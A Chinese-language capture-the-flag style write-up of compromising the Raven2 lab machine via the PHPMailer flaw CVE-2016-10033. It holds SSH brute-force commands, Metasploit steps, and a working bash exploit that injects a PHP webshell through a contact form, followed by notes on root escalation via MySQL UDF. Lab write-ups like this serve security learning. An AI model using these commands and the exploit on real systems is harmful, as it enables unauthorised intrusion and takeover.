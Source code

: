 ```yaml
---
title: raven2（CVE-2016-10033）
categories:
- training
tags:
- training
- linux os
---
```

```
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```
## try1-ssh用户枚举
```
python ssh.py --userList /usr/share/wordlists/linux-user.txt --outputFile out.txt 192.168.2.133
cat out.txt | grep -v 'not' > name.txt
awk '{print $1}' name.txt > user.txt
```
获得的用户：
```
michael
steven
......
```
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -I 192.168.2.133 ssh`

我猜弱口令应该已经修补了。但是还是得试一试，==，万一又有，我又没发现这么低级的漏洞，岂不是很没有面子。

## try2-web enum

方法：
`wpscan --url "http://192.168.2.133/wordpress/" --wp-content-dir "/wordpress" --enumerate u --enumerate p`

信息：
```
WordPress 4.8.7
Apache/2.4.10 (Debian)

后台：http://raven.local/wordpress/wp-login.php

192.168.2.133/vendor/changelog.md
PHPMailer 6.0
Version 5.2.17 (December 9th 2016)
```
```
searchsploit PHPMailer

PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                    | exploits/php/webapps/42221.py
```
searchsploit -m exploits/php/webapps/42221.py
```
  Exploit: PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/42221/
     Path: /usr/share/exploitdb/exploits/php/webapps/42221.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/42221.py
```
see /root/42221.py
mv /root/42221.py rce_phpmailer_exim4.py
python rce_phpmailer_exim4.py -url http://192.168.2.133/ -cf contact.php -ip 192.168.2.133 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/1.PNG)

--- 
时隔2个月，继续这个靶机的练习
192.168.241.128

command:
```
echo 192.168.241.128 raven.local >> /etc/hosts
wpscan --url "http://192.168.241.128/wordpress/" --wp-content-dir "/wordpress" --enumerate

```
## 存在的目录：
http://raven.local/vendor/changelog.md
http://raven.local/manual/en/index.html apache的目录

---

wordpress 4.8.7漏洞资料 
https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224338/Wordpress-Wordpress-4.8.html

CVE-2018-20148：PHP Object Injection via Meta Data

---

## info:
http://192.168.241.128/wordpress/?attachment_id=11
wpscan扫描了这个目录，获得flag3

http://raven.local/vendor/PATH
发现目录遍历，获得flag1

## 思路
无弱密码；有0day漏洞，但没有exp；无脆弱的wordpress插件

查看wp后，就是自己没有发现目录遍历漏洞=。=

http://raven.local/vendor/security.md 暗示了phpmailer插件版本漏洞

```
touch test.rc

use exploit/multi/http/phpmailer_arg_injection
set RHOST 192.168.241.128
set TARGETURI /contact.php
set WEB_ROOT /var/www/html/
run

msfconsole -r test.rc
反弹shell失败。。。
```
## exp.sh
```
#!/bin/bash

TARGET=http://raven.local/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```
运行以上exp，成功获得一个webshell，权限为www-data

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/2.PNG)

接下来用php反弹shell，如同[这篇文章](https://whale3070.github.io/training/2018/11/10/x/)

python -c 'import pty; pty.spawn("/bin/bash")'

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/3.PNG)

之后，web目录泄露mysql密码，得到mysql普通权限。
然后上传udf源代码，执行安装，就可以使用do_system()函数，以root权限执行命令。
https://whale3070.github.io/training/2018/12/11/x/

## 总结
之前用searchsploit 找到了关于phpmailer的exp，php、bash、python的exp，都执行失败了。

看到过一个问题，**web渗透该如何继续提升？**除非遇到一样的web站点，该搞不下来的网站，还是搞不下来。

我认为应该用代码能力，写工具，尽可能扩大目标攻击面（只有知道，才能看到弱点），然后精力放在漏洞挖掘上。

而不是脚本小子运用已知exp对漏洞进行利用。

就好像我知道锁A、B、C，我有钥匙a，刚好Aa能配上，我就能进入系统。

经过验证，搞不下来的站点，除非有0day漏洞，那就证明了该站点很安全。

继续提升代码能力以及漏洞挖掘能力吧...
